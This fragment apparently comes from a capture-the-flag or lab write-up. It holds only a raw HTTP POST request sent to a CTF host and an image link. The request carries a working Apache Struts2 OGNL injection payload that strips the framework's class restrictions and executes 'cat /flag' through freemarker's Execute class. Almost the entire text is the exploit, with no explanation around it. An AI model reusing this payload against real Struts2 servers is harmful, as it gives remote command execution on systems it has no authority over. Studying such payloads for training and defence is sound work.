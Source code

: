 ```
POST /index.action HTTP/1.1
Host: eci-2zeiruv5maej1y8n9zdi.cloudeci1.ichunqiu.com:8080
Upgrade-Insecure-Requests: 1
User-Agent: curl
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1659237615
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 838

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="name"


%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("cat /flag")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![image-20230712084234726](%E9%9D%B6%E5%9C%BA.assets/image-20230712084234726.png)
